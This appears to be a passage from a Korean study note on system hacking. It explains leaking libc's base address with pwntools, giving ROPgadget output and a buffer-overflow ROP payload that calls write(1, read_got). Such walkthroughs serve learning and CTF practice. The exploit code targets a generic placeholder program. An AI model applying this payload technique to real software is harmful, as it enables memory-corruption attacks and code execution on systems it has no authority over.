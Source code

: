       2. pwntool 사용
         - libc 라이브러리의 ELF를 확인한다. 
            ```
            from pwn import *

            libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
            offset_read = libc.symbols['read']
            ```
         
         - 이제 read 함수의 주소를 확인해야 한다. 하지만 pwntool에서는 read 함수의 주소가 저장된 got 테이블의 주소는 확인할 수 있지만, 그 안에 저장된 값(read 함수의 메모리상 주소)은 확인할 수 없다.
         -  read 함수의 메모리상 주소값을 확인하려면 프로그램에서 got 값을 출력하도록 exploit code를 작성해야 한다. 
         -  buffer overflow를 통해 `write(1,read_got)` 를 호출하면 원하는 값을 출력할 수 있다. 
           - rdi(첫번째 인자)를 1, rsi(두번째 인자)를 read_got로 설정하기 위해 `return gadget` 을 사용한다.
           - `ROPgadget --binary PROGRAM_PATH` 로 검색 하여 `pop rsi` 와 `pop rdi` gadget 을 찾는다.
             - [ROPgadget 사용법 참조](../../systemhacking/pwntool/#ropgadget)

              ``` 
              0x0000000000400851 : pop rsi ; pop r15 ; ret
              0x0000000000400853 : pop rdi ; ret
              # 검색 결과 pop rdi / pop rsi 구문이 포함된 다른 gadget 이 없으므로 선택지는 없다.
              # gadget 의 주소는 동일한 프로그램 실행시 항상 일정한 값을 가지므로 미리 추출하여 사용할 수 있다.
              ```

         - exploit 코드를 작성한다. 
            ```
            from pwn import *

            p = process(PROGRAMA_PATH)
            e = ELF(PROGRAMA_PATH)

            # exploit code, 코드상 buffer overflow를 발생시킬 수 있는 구문이 있다고 가정한다.
            read_plt = e.plt['read']  # read 함수의 plt
            read_got = e.got['read']  # read 함수의 got
            write_plt = e.plt['write']  # write 함수의 plt
            pop_rdi_ret = 0x0000000000400853  # pop rdi; ret 구문의 주소
            pop_rsi_pop_r15_ret = 0x0000000000400851  # pop rsi; pop r15; ret 구문의 주소
            
            payload = b'A'*(buffer_length + 8) + canary + b'B'*8  # overwrite buffer_length + 8(canary_dummy) + canary(8) + SFP(8)
            payload += p64(pop_rdi_ret) + p64(1)  # rdi 에 1 을 적용하도록 gadget 배치
            payload += p64(pop_rsi_pop_r15_ret) + p64(read_got) + p64(0)  # rsi 에 read_got 을 넣고, r15에 0(아무값) 을 넣는다.
            payload += p64(write_plt)  # return 주소를 write_plt 로 변경한다. 
            # write(1,read_got) 가 완성되었다. 결과로 read 함수의 주소를 출력한다.
            ```
         - 출력된 값에서 read 함수의 offset (앞서 구한 offset_read) 을 빼면 libc_base 를 구할 수 있다.
